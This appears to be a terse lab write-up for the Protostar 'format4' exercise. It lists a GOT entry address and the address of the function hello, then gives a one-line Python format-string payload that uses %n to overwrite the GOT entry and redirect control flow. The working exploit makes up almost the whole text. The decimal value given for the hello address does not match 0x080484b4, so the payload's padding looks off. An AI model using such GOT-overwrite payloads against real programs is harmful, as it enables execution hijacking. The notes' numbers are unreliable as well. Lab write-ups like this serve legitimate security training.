 # Protostar - format4
0x8049724 -- address of GOT TABLE OFFSET 
0x080484b4 <hello+0>    hello address   @134513839  decimal value
the idea here to change the address of the entry of the GOT ≈

````BASH
python -c 'print "\x24\x97\x04\x08"+"%134513839d"+"%4$n"' | ./format4


